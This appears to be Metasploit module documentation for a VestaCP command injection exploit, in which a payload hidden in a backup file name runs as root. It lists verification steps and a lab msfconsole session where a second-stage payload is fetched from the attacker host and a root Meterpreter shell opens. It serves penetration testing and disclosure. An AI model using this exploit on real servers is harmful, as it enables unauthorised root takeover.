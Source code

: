 ## Vulnerable Application
This module exploits command injection vulnerability in v-list-user-backups bash script file. Low privileged authenticated users can execute arbitrary commands under the context of the root user.

An authenticated attacker with a low privileges can inject a payload in the file name starts with dot. During the user backup process, this file name will be evaluated by the v-backup-user bash scripts. As result of that backup process, when an attacker try to list existing backups injected payload will be executed.
        
## Vulnerable Application Installation Steps

You can install Vesta Control Panel on Linux server with following commands.

```
ssh root@your.server
curl -O http://vestacp.com/pub/vst-install.sh
bash vst-install.sh
```

Once you have finished the installation, go to https://IP_ADDR:8083/add/user/ and new unprivileged user with default package.


## Verification Steps

A successful check of the exploit will look like this:

1. Start `msfconsole`
2. `use exploit/linux/http/vestacp_exec `
3. Set `RHOST`
4. Set `LHOST`
4. Set `USERNAME`
4. Set `PASSWORD`
4. Set `SRVHOST`
4. Set `SRVPORT`
7. Run `exploit`
8. **Verify** that you are seeing `Successfully authenticated to the FTP service` in console.
9. **Verify** that you are seeing `Successfully uploaded the payload as a file name` in console.
9. **Verify** that you are seeing `Successfully authenticated to the HTTP Service` in console.
9. **Verify** that you are seeing `Scheduled backup has ben started. Exploitation may take up to 5 minutes.` in console.
9. **Verify** that you are seeing `It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...` in console.
9. **Verify** that you are seeing `First stage is executed ! Sending 2nd stage of the payload` in console.
15. **Verify** that you are getting meterpreter session.

## Ubuntu 18.04 LTS with VestaCP 0.9.26

```
msf5 > use exploit/linux/http/vestacp_exec 
msf5 exploit(linux/http/vestacp_exec) > set RHOSTS 192.168.74.218
RHOSTS => 192.168.74.218
msf5 exploit(linux/http/vestacp_exec) > set USERNAME user11
USERNAME => user11
msf5 exploit(linux/http/vestacp_exec) > set PASSWORD qwe123
PASSWORD => qwe123
msf5 exploit(linux/http/vestacp_exec) > set LHOST 192.168.74.1 
LHOST => 192.168.74.1
msf5 exploit(linux/http/vestacp_exec) > set SRVHOST 192.168.74.1 
SRVHOST => 192.168.74.1
msf5 exploit(linux/http/vestacp_exec) > set SRVPORT 8081
SRVPORT => 8081
msf5 exploit(linux/http/vestacp_exec) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.74.1:4444 
[*] 192.168.74.218:8083 - Using URL: http://192.168.74.1:8081/jZlIgkU
[*] 192.168.74.218:8083 - Second payload download URI is http://192.168.74.1:8081/jZlIgkU
msf5 exploit(linux/http/vestacp_exec) > [+] 192.168.74.218:21 - Successfully authenticated to the FTP service
[+] 192.168.74.218:21 - Successfully uploaded the payload as a file name
[*] 192.168.74.218:8083 - Retrieving cookie and csrf token values
[+] 192.168.74.218:8083 - Cookie and CSRF token values successfully retrieved
[*] 192.168.74.218:8083 - Authenticating to HTTP Service with given credentials
[+] 192.168.74.218:8083 - Successfully authenticated to the HTTP Service
[+] 192.168.74.218:8083 - Scheduled backup has ben started. Exploitation may take up to 5 minutes.
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[*] 192.168.74.218:8083 - It seems there is an active backup process ! Recheck after 30 second. Zzzzzz...
[+] 192.168.74.218:8083 - First stage is executed ! Sending 2nd stage of the payload
[*] Sending stage (53755 bytes) to 192.168.74.218
[*] Meterpreter session 1 opened (192.168.74.1:4444 -> 192.168.74.218:35102) at 2020-03-18 17:45:30 +0300
[-] 192.168.74.218:8083 - Exploit aborted due to failure: unknown: Something went wrong. Maybe session timed out ?
[*] 192.168.74.218:8083 - Server stopped.

msf5 exploit(linux/http/vestacp_exec) > sessions -i 1 
[*] Starting interaction with 1...

meterpreter > getuid 
Server username: root
meterpreter > 
```